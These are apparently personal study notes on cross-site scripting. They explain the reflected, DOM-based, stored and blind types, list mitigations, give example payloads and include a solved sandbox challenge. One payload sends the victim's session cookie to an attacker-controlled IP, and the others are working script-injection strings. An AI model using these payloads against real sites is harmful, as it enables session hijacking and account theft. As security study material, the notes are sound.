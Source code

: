 # XSS
## Same Origin Policy
- checks protocol, host, and port of a website
- if all those are the same then the brower allows the two pages to read/write to each other
## Migitations
- Use output encoding when including data into the HTML document
- DOMPurify library
## Reflected XSS
Input to a webpage is reflected back to the user in the response from the webserver
1. user clicks malicious link (www.acme.com?message=`<script>evil()</script>`)
2. the web server by incorporate the value into the HTML document created for the user (Source code: `<h1>Hello {value of message}</h1>`)
3. the web server returns malicious document to the user (`<h1><script>evil()</script></h1>`)
4. user's browser executes the script `<script>evil()</script>`
## DOM-based XSS
User input lands in dangerous part of JS code
1. user clicks malicious object on page (`<span onmouseover='evil();'></span>`)
2. JS parses the input and incorporates into the page using the DOM (Source code: `<h1>Hello {value of message}</h1>`)
3. Browser executes script `evil()`
4. Note: vulnerability is entirely in the browser
5. Look for usage of `innerHTML`
## Persistent/Stored XSS
Malicious JS is stored in the webserver and served to the user upon request
1. Database is poisoned with an insertion of a script (Field: message, value: `<script>evil()</script>`)
2. The application server incorporates the value into the HTML document created for the user (Source code: `<h1>Hello {value of message}</h1>`)
3. Document generated by application: `<h1>Hello <script>evil()</script></h1>`
4. User's browser executes `<script>evil()</script>`
## Blind XSS
- XSS an admin panel that you do not have access to
## Example Payloads
```html
<!-- user alert(document.domain) -->
<script>alert(document.domain)</script>
<!-- self firing -->
<img src=x onerror=alert(1) />
<svg onload=alert(1)></svg>
<!-- 192.168.0.192 is hacker's IP and they are listening on port 4444, this lets them access the session cookie -->
<script>new Image().src = "http://192.168.0.192:4444/hacker.php?output="+document.cookie;</script>

```

## XSS Challenges
### Ma Spaghet!
```html
<!-- Challenge -->
<h2 id="spaghet"></h2>
<script>
    spaghet.innerHTML = (new URL(location).searchParams.get('somebody') || "Somebody") + " Toucha Ma Spaghet!"
</script>
<!-- Payload -->
<!-- https://sandbox.pwnfunction.com/warmups/ma-spaghet.html?somebody=%3Csvg%20onload=alert(1)%3E -->
<svg onload=alert(1)>
```
### Jefff
### Ugandan Knuckles
### Ricardo Milos
### Ah That's Hawt 
### Ligma
### Mafia
### Ok, Boomer